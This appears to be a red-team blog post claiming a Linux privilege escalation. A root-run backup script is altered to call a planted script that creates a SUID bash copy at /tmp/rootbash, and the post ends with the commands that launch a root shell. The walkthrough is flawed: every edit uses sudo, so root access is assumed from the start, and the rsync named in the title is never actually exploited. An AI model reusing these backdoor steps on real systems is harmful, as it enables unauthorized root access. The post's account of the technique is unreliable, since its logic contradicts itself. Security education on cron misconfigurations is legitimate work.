 ```yaml
---
title: "
Privilege Escalation Using Cron and Rsync"
date: 2023-02-05 14:15:24
categories: [privilege-escalation, linux]
tags: [redteam, privilege-escalation, linux]
---
```


Many systems rely on automated scripts for maintenance and backups. These scripts, if poorly configured or inadequately protected, can be exploited for privilege escalation. Recently, we identified a vulnerability in a system where a backup script was used to gain root access. This article details how we exploited this vulnerability and the steps taken to gain elevated privileges.

#### Step 1: Gaining Initial Access 

We obtained SSH access to the target system using user credentials. This initial access was essential to explore and identify potential vulnerabilities in the system.

#### Step 2: Identifying the Attack Vector 
During our system analysis, we observed that a backup script was being periodically executed with root privileges. The script located at `/usr/local/bin/backup.sh` used `rsync` to synchronize files from the `/opt` directory to `/backup/opt/`. This cron job was set to run at system boot.
The content of the existing backup script was:


```bash
#!/bin/bash

echo "$(date): Executing backup" >> /var/log/backup.log

while true; do
    rsync -av --delete /opt/ /backup/opt/
    sleep 3
done
```

#### Step 3: Creating the Malicious Script 

To exploit this configuration, we created a malicious script to be executed as part of the backup process. This malicious script creates a SUID shell, allowing any user who executes the shell to gain root privileges.


```bash
sudo nano /opt/pre_backup.sh
```

The content of the script is:


```bash
#!/bin/bash

# Log execution
echo "$(date): Executing pre_backup.sh" >> /var/log/pre_backup.log

# Create a SUID shell
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

#### Step 4: Modifying the Backup Script 

With the malicious script in place, we modified the existing backup script to call our malicious script during each execution.


```bash
sudo nano /usr/local/bin/backup.sh
```

The modified backup script is:


```bash
#!/bin/bash

echo "$(date): Executing backup" >> /var/log/backup.log

while true; do
    rsync -av --delete /opt/ /backup/opt/
    
    # Execute the malicious script
    /opt/pre_backup.sh
    
    sleep 3
done
```

#### Step 5: Restarting the System 

To ensure the changes take effect, we restarted the system:


```bash
sudo reboot
```

#### Step 6: Verifying the Execution of the Malicious Script 

After rebooting, we checked the log file to confirm the execution of the malicious script:


```bash
sudo cat /var/log/pre_backup.log
```

#### Step 7: Gaining Root Access 
We confirmed that the SUID shell was created at `/tmp/rootbash`:

```bash
ls -l /tmp/rootbash
```

By executing the SUID shell, we obtained a root shell:


```bash
/tmp/rootbash -p
```

### Conclusion 

This process highlighted a common vulnerability in many systems: poorly protected backup and maintenance scripts. To prevent such vulnerabilities, it is crucial to follow strict security practices, including:

- Reviewing and restricting file and script permissions.

- Implementing logs and alerts for suspicious activities.

- Conducting regular security audits on automated scripts.

Exploiting backup scripts for privilege escalation is a classic example of how IT security requires attention to detail and a proactive approach to risk mitigation.

### Security Warning 

This article is provided for educational and testing purposes only in controlled environments. Unauthorized use of the techniques described on real systems is illegal and unethical. Always obtain explicit permission before conducting security tests.


---

**References:**  
1. [HackTricks: Privilege Escalation via Cron Jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
 
2. [TryHackMe Linux Privilege Escalation Room](https://tryhackme.com/room/linprivesc)